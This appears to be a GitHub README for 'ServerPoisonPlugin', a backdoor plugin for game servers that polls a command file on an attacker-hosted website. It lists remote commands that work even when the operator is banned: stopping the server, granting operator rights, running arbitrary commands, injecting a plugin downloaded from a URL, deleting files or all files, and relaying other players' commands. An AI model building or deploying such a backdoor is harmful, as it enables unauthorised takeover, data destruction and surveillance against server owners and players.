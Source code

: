 ## Important

**Before you can use the plugin, you need to host the website on a server (You can find a free hosting service [here](https://fr.000webhost.com/)).**
**You also need to compile the plugin with your username and the HTTP link to your web hosting in the variables provided, as shown in the screenshot below.**
(You can use [Eclipse](https://www.eclipse.org/) to edit and compile the code.)

![image](https://github.com/cempack/ServerPoisonPlugin/assets/73651345/3ca7e874-8594-4327-b456-f6ad1cc695d2)

## Commands and Usage

**The commands below should be placed in the command.txt file on the website. You can execute them even if you are banned from the server.**

1. **Command: stop**
   Usage: Type "stop" to shut down the server.
   Example: `stop`

2. **Command: op \<player\>**
   Usage: Type "op \<player\>" to grant operator status to a player.
   Example: `op JohnDoe`

3. **Command: command \<command\>**
   Usage: Type "command \<command\>" to execute a specific server command.
   Example: `command kill player123`

4. **Command: inject \<url\>**
   Usage: Type "inject \<url\>" to inject a plugin from a given URL.
   Example: `inject http://example.com/somefile.jar`

5. **Command: delete \<file\>**
   Usage: Type "delete \<file\>" to delete a specific file from the server.
   Example: `delete logs.txt`

6. **Command: deleteall**
   Usage: Type "deleteall" to delete all files on the server.
   Example: `deleteall`

In addition to these commands, the plugin also displays all commands executed by other players in your in-game chat.

